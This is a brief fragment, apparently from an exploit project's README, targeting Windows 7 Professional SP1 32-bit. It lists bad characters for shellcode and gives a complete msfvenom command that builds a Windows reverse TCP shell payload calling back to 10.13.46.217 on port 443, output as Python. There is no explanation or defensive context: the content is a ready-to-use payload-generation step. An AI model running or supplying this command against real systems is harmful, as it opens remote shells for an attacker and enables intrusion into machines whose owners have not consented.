 

Created for Windows 7 Professional SP1 32bits

Badchars: \x00\xa0\xad\xbe\xde\xef

Msfvenom: msfvenom -p windows/shell_reverse_tcp lhost=10.13.46.217 lport=443 exitfunc=thread -b "\x00\xa0\xad\xbe\xde\xef" -v esp -f python
